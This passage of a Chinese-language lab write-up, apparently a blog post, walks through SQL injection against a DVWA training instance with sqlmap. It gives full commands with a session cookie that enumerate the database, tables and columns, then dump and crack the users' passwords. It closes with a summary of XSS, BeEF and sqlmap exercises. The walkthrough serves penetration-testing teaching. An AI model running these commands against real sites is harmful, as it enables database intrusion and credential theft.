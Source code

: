 - -u后是需要攻击的url
- 因为dvwa是需要登陆的，需要cookie用作身份验证，可以通过浏览器F12抓包获取
- --current-db表示查询当前数据库
![在这里插入图片描述](https://img-blog.csdnimg.cn/20201117163655704.png#pic_center)
然后查询一下当前的使用者：
`sqlmap -u "http://10.34.80.4/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "security=low; PHPSESSID=edc3d366bb72538cb8af3df2bbf19979" --current-user
`
![在这里插入图片描述](https://img-blog.csdnimg.cn/2020111716382474.png#pic_center)
### 1x03 枚举数据库用户名和密码

**枚举数据库的表名：**

因为我们是dvwa所以爆破dvwa数据库中的数据表

`sqlmap -u "http://10.34.80.4/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "security=low; PHPSESSID=edc3d366bb72538cb8af3df2bbf19979" -D dvwa --tables
`
![在这里插入图片描述](https://img-blog.csdnimg.cn/20201117164551451.png#pic_center)
**枚举数据表中的列名：**
根据上面的枚举结果，我们应该是要看users数据表中的内容：
`sqlmap -u "http://10.34.80.4/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "security=low; PHPSESSID=edc3d366bb72538cb8af3df2bbf19979" -D dvwa -T users --columns
`
![在这里插入图片描述](https://img-blog.csdnimg.cn/20201117164855105.png#pic_center)
**枚举数据表中的用户和密码：**
查询到users数据表中有那么多的字段，我们想要的数据应该就在user和password中了
`sqlmap -u "http://10.34.80.4/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "security=low; PHPSESSID=edc3d366bb72538cb8af3df2bbf19979" -D dvwa -T users -C user,password --dump
`
这里会询问你是否使用Kali中自带的字典进行攻击，选择是就好了
![在这里插入图片描述](https://img-blog.csdnimg.cn/20201117165159959.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3B5dGhvbl9MQ19ub2h0eXA=,size_16,color_FFFFFF,t_70#pic_center)
最后得到结果：
![在这里插入图片描述](https://img-blog.csdnimg.cn/20201117165304520.png#pic_center)

## 0x03 实验小结

在本次的实验中学习了两种最常见的漏洞：XSS漏洞和SQL注入漏洞，在实验过程中具体的掌握了如下知识点：

- 如何使用扫描器AWVS
- 如何向网站中注入XSS漏洞
- 如何使用Beef利用网站中的XSS漏洞
- 如何使用SQLMAP利用网站的注入漏洞





















